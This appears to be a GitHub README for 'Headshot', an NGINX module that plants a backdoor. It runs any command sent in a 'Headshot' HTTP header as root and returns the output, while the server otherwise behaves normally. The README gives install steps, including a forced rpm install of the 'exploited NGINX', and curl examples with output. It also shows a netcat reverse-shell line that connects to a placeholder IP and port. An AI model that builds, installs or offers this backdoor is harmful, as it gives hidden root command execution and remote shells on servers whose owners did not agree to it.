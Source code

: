 # Headshot
NGINX module to allow for RCE through a specific header. Also forces NGINX to run as root.


## Installation
There is a install script provided in the repo. It will pull down NGINX and compile it with the module. Then NGINX directory will be setup in `/usr/local/nginx` (NGINX default). After this the `NGX_HTTP_CONTENT_PHASE` is hooked and the module will be running in NGINX. In addition, the rpm file provided can be used to install the exploited NGINX by running the command below.

```
rpm -U nginx-1.12.2-2.el7.x86_64.rpm --nodeps --force
```


## Usage
To use the Headshot simply supply your command as a value to the `Headshot` HTTP header. The output (stdout or stderr) of your command will be the response body of the command run. If there is no stdout or stderr from the command, then the response body will obviously be empty and a helpful string is returned. An example or two is shown below.

```
[root@localhost Headshot]# curl localhost --header "Headshot: ls -la /tmp"
total 4
drwxrwxrwt.  8 root root 123 Nov 30 11:39 .
dr-xr-xr-x. 17 root root 224 Oct 30 14:11 ..
drwxrwxrwt.  2 root root  19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root root  11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root root  16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .XIM-unix
drwx------.  2 root root  20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .font-unix
[root@localhost Headshot]# curl localhost --header "Headshot: touch /tmp/hello"
<-- no stderr/stdout from your command -->
[root@localhost Headshot]# curl localhost --header "Headshot: ls -la /tmp"
total 4
drwxrwxrwt.  8 root   root   136 Nov 30 11:39 .
dr-xr-xr-x. 17 root   root   224 Oct 30 14:11 ..
drwxrwxrwt.  2 root   root    19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root   root    11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root   root    16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .XIM-unix
drwx------.  2 root   root    20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .font-unix
-rw-rw-rw-.  1 nobody nobody   0 Nov 30 11:39 hello
[root@localhost Headshot]# curl localhost --header "Headshot: not_a_command"
sh: 1: not_a_command: not found
```
If the header is not supplied then the server will respond to requests as normal. See below for example.
```
[root@localhost Headshot]# curl localhost
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
```

For those curious, if one were to setup a reverse shell from this exploit and a blue team member ran `ps -fax` then they would see something like the following output while the shell was active.

```
 17622 ?        Ss     0:00  \_ nginx: master process /usr/local/nginx/sbin/nginx
 17623 ?        S      0:00      \_ nginx: worker process
 17719 ?        S      0:00          \_ sh -c nc -c /bin/bash {YOUR_IP} {YOUR_PORT} 2>&1
 17720 ?        S      0:00              \_ sh -c /bin/bash
 17721 ?        S      0:00                  \_ /bin/bash
```

## Resources
[The foremost resource on NGINX Modules](https://www.evanmiller.org/nginx-modules-guide.html)

[A basic hello world module](https://github.com/perusio/nginx-hello-world-module/)

[The NGINX Source begins to be helpful after you loose sanity](https://github.com/nginx/nginx/)

[The NGINX API Documentation also helps](https://www.nginx.com/resources/wiki/extending/api/utility/)

[Also not a bad small guide](http://www.nginxguts.com/2011/02/http-modules/)
[From the same source as above but goes over NGINX Phases](http://www.nginxguts.com/2011/01/phases/)

[This would be the guide to follow to dynamically link the module](https://www.nginx.com/blog/compiling-dynamic-modules-nginx-plus/)
[This is where I go the idea to hook the NGX_HTTP_CONTENT_PHASE to avoid directive use](http://www.nginx-discovery.com/2011/02/day-21-http-handler-vs-content-phase.html)
